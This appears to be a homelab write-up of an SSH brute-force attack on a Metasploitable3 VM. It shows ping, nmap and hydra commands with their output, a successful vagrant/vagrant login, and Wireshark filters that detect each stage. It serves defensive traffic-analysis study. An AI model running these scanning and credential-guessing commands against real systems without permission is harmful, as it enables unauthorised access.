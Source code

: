 # SSH Brute Force PCAP Analysis ```[Homelab Environment]```

* Attack Machine: ```10.38.1.111```
* Victim Machine: ```10.38.1.110```

> Note: PCAP files are available via Google Drive download links, if you've taken an interest in this project and would like to do some analysis yourself. The PCAP file does not have any generated traffic, and there isn't a lot of investigation behind it. However, this demonstrates traffic specifically from a SSH brute force attack.
# tcpdump

We specify tcpdump to write the capture information to ```/home/vagrant/ssh_cap``` on the eth0 interface and specify verbose output in the Metasploitable3 machine.

<img src="https://i.postimg.cc/85K9HQ4X/image.png">

# Exploitation

```bash
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ping 10.38.1.110 # Threw in some ICMP traffic.
PING 10.38.1.110 (10.38.1.110) 56(84) bytes of data.
64 bytes from 10.38.1.110: icmp_seq=1 ttl=64 time=1.00 ms
64 bytes from 10.38.1.110: icmp_seq=2 ttl=64 time=0.854 ms
64 bytes from 10.38.1.110: icmp_seq=3 ttl=64 time=1.04 ms
64 bytes from 10.38.1.110: icmp_seq=4 ttl=64 time=0.892 ms
64 bytes from 10.38.1.110: icmp_seq=5 ttl=64 time=0.949 ms
64 bytes from 10.38.1.110: icmp_seq=6 ttl=64 time=0.980 ms
64 bytes from 10.38.1.110: icmp_seq=7 ttl=64 time=0.959 ms
64 bytes from 10.38.1.110: icmp_seq=8 ttl=64 time=1.05 ms
^V64 bytes from 10.38.1.110: icmp_seq=9 ttl=64 time=0.975 ms
^C
--- 10.38.1.110 ping statistics ---
9 packets transmitted, 9 received, 0% packet loss, time 8062ms
rtt min/avg/max/mdev = 0.854/0.965/1.047/0.059 ms
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ nmap -sV -p 1-1000 10.38.1.110 # simulated 1000 ports getting scanned (a bit more realistic rather than "-p 22" parameter.
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-19 03:50 GMT
Nmap scan report for 10.38.1.110
Host is up (0.0018s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
Service Info: Hosts: 127.0.2.1, METASPLOITABLE3-UB1404; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ hydra -L /home/parrot/Desktop/usernamelistlab.txt -P /home/parrot/Desktop/passlistlab.txt 10.38.1.110 ssh # Note, each word list has something like 60 entries. Although I didn't want to make them too big, I wanted some substance in the PCAP.
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-19 03:50:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3055 login tries (l:65/p:47), ~191 tries per task
[DATA] attacking ssh://10.38.1.110:22/
[STATUS] 494.00 tries/min, 494 tries in 00:01h, 2566 to do in 00:06h, 16 active
[STATUS] 472.00 tries/min, 1416 tries in 00:03h, 1644 to do in 00:04h, 16 active
[22][ssh] host: 10.38.1.110   login: vagrant   password: vagrant # Username & Password
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ssh vagrant@10.38.1.110
vagrant@10.38.1.110's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ touch SSH_DONE.TXT.COMPLETE
```

After completing the exploitation and packet capture, we can move the PCAP via ```scp``` command.

![[Pasted image 20240319001217.png]]

# Analyzing The PCAP

We ended up capturing quite a few packs and so, I thought it'd be neat to try a few different display filters I've come up with to make some observations about the traffic.

* First, let's see the amount of ICMP requests that were made to our victim's machine by using: ```icmp and !ip.src==10.38.1.110``` - which shows us ICMP traffic and not the ip source of ```10.38.1.110```. Wireshark shows ```9``` displayed items.

<img src="https://i.postimg.cc/3wCY1yQw/image.png">

* Port scanning begins at 03:50:13 in the PCAP (UTC).
* We see characteristics of an open port TCP scan communication. By filtering the TCP reset flag, we can see that there is a reset for each open port on Metasploitable3.

Here are the returned open port results from earlier:
```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
```
<img src="https://i.postimg.cc/XvBKZymp/image.png">

And we can compare this to the reset flags using: ```tcp.flags.reset==1 and !ip.src==10.38.1.110``` display filter. You can find more supplementary reading at this [blog post](https://medium.com/@thismanera/nmap-detection-with-wireshark-e780c73a0823) about the various scan types and how they appear on wireshark. This may be a future project for myself, as the other scans fall out of the scope for this particular lab observation.

### SSH Analysis
<img src ="https://i.postimg.cc/MTgyWnH0/image.png">

By simply filtering the port (```tcp.port==22 and ip.src==10.38.1.111```), we can already note the malicious activity (huge amount of traffic being directed to port 22 - alternating attack src ports). Because SSH is secure, not much information can be observed through the TCP stream.

At the end of the attack we can flip over to our server as traffic source (```tcp.port==22 and ip.src==10.38.1.110```) -- The length jumps and we get some interesting info. From some supplementary reading, I learned successful authentication has an increased length.

<img src="https://i.postimg.cc/y8DdXsTt/image.png">

